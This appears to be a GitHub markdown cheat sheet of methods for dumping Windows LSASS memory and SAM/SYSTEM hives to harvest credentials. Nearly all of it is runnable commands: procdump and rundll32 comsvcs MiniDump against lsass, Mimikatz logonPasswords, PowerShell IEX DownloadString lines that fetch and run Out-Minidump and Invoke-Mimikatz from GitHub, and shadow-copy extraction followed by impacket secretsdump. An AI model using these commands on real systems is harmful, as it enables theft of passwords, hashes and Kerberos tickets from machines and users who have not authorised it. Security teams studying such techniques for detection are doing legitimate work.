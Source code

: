 # Methods to Dump LSASS
Craft a comprehensive guide detailing various methods for dumping the LSASS.<br>
I think This will be a valuable one and will make people stay updated on new techniques.
## 1. Procdump:
Procdump is a part of Microsoft Sysinternals and a command-line<br>utility programs for producing dumps of any running process<br>
We can leverage it and use it fo DUMP lsass process by the following:<br>
<code>procdump.exe -ma lsass.exe C:\path\lsass.dmp</code>

## 2. Mimikatz:
Mimikatz can both dump the LSASS process and read from an LSASS dump:<br>
<code>privilege::debug = Debugging Mode
sekurlsa::logonPasswords = Dump passwords
</code>

* To Read from an LSASS dump:<br>
<code>sekurlsa::minidump C:\path\lsass.dmp
sekurlsa::logonpasswords</code>

## 3. Rundll32
This is a native Windows utility method which can we can use:<br>
<code>rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_Process_ID> C:\path</code><br>
for getting lsass process ID, you can RUN "Get-Process lsass" on powershell.
* User can also done this by making a PS script containing the following:<br>
<code>$lsass = Get-Process lsass
$dumpPath = "C:\Users\Adwin2\Desktop\lsass.dmp"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $($lsass.Id) $dumpPath full</code><br><br>
<b>Note</b>: Change $dumpPath

## 4. PowerSploit's Out-Minidump:
Ensure the Out-Minidump function is loaded in your PowerShell session<br>
<code>IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Out-Minidump.ps1')"
Get-Process lsass | Out-Minidump -DumpFilePath C:\Path\To\Dump
</code>

#### 4.4 - Using 'MiniDump' to dump lsass into C:\Windows\Tasks:
<code>
IEX (New-Object Net.WebClient).DownloadString('https://github.com/chvancooten/OSEP-Code-Snippets/raw/main/MiniDump/MiniDump.ps1')
Reults will be save on C:\Windows\Tasks.
</code>

##  5. Using Invoke-Mimikatz from the GitHub Repository:
Download & Import the Script:
First, you need to get the Invoke-Mimikatz.ps1 script from the GitHub repository.
If you're working directly on the machine:
<code>IEX (New-Object Net.WebClient).DownloadString('https://github.com/g4uss47/Invoke-Mimikatz/raw/master/Invoke-Mimikatz.ps1')</code><br>

Invoke Mimikatz to Dump LSASS:<br>
Once the module is imported, you can run Invoke-Mimikatz to dump the LSASS</br>

<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords"'</code><br>
* You can also using minidump module to select where to read:<br>
<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::minidump C:\Path\To\Load\Lsass"'</code>

## 6. SAM/SECURITY [ Windows11 ]
SAM/SECURITY Hives: These contain local account information and system security policies. Dumping from these hives can provide hashed passwords for local accounts and details about security settings. This method requires access to system files either offline or through the system registry.

LSASS Process: LSASS handles both local and domain credentials, managing in-memory credential caches that include plaintext passwords, hashes, and Kerberos tickets. Dumping from LSASS offers a more comprehensive set of credentials, including those of currently logged-in users. This requires administrative access and is performed on a running system.

<code>
Run [ Windows11 ]
$shadow = [WMIClass]"root\cimv2:Win32_ShadowCopy"
$shadow.Create("C:\\", "ClientAccessible")
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[Number]\windows\system32\config\SAM C:\[SAM\To\Be\Saved\]
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[Number]\windows\system32\config\SYSTEM C:\[SYSTEM\To\Be\Saved\]
python3 /opt/impacket/examples/secretsdump.py -sam Sam -system SYSTEM LOCAL
